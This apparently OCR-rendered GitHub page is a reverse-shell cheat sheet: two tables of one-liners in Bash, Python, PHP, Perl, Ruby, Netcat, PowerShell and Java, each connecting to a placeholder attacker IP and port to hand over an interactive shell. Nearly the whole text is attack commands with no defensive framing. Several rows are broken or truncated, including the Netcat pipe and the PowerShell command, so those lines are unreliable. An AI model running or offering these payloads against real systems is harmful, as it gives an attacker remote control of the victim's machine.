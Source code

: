 ```yaml
---

| **Language/Tool** | **Reverse Shell Command** | **Notes** |
| --- | --- | --- |
| **Bash** | `bash -i >& /dev/tcp/<attacker_IP>/<port> 0>&1` | Simple Bash reverse shell. |
| **Python** | `python -c 'import socket,os,pty; s=socket.socket(); s.connect(("<attacker_IP>",<port>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/bash")'` | Requires Python on the target system. |
| **Python3** | `python3 -c 'import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<attacker_IP>",<port>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/bash")'` | Updated for Python3 syntax. |
| **PHP** | `php -r '$sock=fsockopen("<attacker_IP>",<port>); exec("/bin/sh -i <&3 >&3 2>&3");'` | Requires PHP installed on the target. |
| **Perl** | `perl -e 'use Socket; $i="<attacker_IP>"; $p=<port>; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); connect(S,sockaddr_in($p,inet_aton($i))); open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");'` | Works with systems that have Perl installed. |
| **Ruby** | `ruby -rsocket -e 'exit if fork; s=TCPSocket.new("<attacker_IP>",<port>); loop { c=TCPSocket.new("<attacker_IP>",<port>); IO.copy_stream(c, s); IO.copy_stream(s, c) }'` | Requires Ruby installed on the target. |
| **Netcat** | `nc -e /bin/bash <attacker_IP> <port>` | Works if Netcat supports the `-e` flag. |
| **Netcat (Without -e)** | `mkfifo /tmp/f; nc <attacker_IP>  < /tmp/f | /bin/bash > /tmp/f` |
| **PowerShell** | `powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<attacker_IP>",);$stream = $client.GetStream();[byte[]]$bytes = 0..65535 | %{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |
| **Java** | `java -cp . ReverseShell <attacker_IP> <port>`  *(Java Code Required)* | Requires a compiled Java program for reverse shell (code can be written in a file and compiled). |

---
```


### **One-Liner Reverse Shells**

| **Language/Tool** | **One-Liner Reverse Shell Command** |
| --- | --- |
| **Bash** | `bash -i >& /dev/tcp/<attacker_IP>/<port> 0>&1` |
| **Python** | `python -c 'import socket,os,pty; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("<attacker_IP>",<port>)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); pty.spawn("/bin/bash")'` |
| **PHP** | `php -r '$sock=fsockopen("<attacker_IP>",<port>); exec("/bin/sh -i <&3 >&3 2>&3");'` |
| **Perl** | `perl -e 'use Socket; $i="<attacker_IP>"; $p=<port>; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); connect(S,sockaddr_in($p,inet_aton($i))); open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");'` |
| **Ruby** | `ruby -rsocket -e 'exit if fork; s=TCPSocket.new("<attacker_IP>",<port>); exec "/bin/sh -i"'` |
| **Netcat** | `nc -e /bin/bash <attacker_IP> <port>` |
| **Netcat (Without -e)** | `mkfifo /tmp/f; nc <attacker_IP>  < /tmp/f |
| **PowerShell** | `powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<attacker_IP>",<port>);` |

---
